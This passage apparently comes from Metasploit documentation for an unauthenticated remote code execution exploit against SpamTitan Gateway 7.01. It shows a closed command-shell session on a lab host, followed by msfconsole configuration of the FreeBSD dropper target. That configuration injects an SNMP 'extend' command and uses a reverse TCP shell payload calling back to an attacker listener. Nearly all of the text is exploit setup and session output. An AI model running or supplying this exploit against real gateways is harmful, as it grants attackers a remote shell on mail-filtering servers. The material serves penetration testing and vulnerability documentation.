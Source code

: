```
	inet 127.0.0.1 netmask 0xff000000
	inet 127.0.0.2 netmask 0xffffffff
	inet 127.0.0.3 netmask 0xffffffff
	nd6 options=21<PERFORMNUD,AUTO_LINKLOCAL>
^C
Abort session 1? [y/N]  y

[*] 172.16.60.101 - Command shell session 1 closed.  Reason: User exit
```

### SpamTitan Gateway v7.01 - target 1 (FreeBSD Dropper - x64)

```
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set target 1
target => 1
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is tipically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   FreeBSD Dropper (x64)


```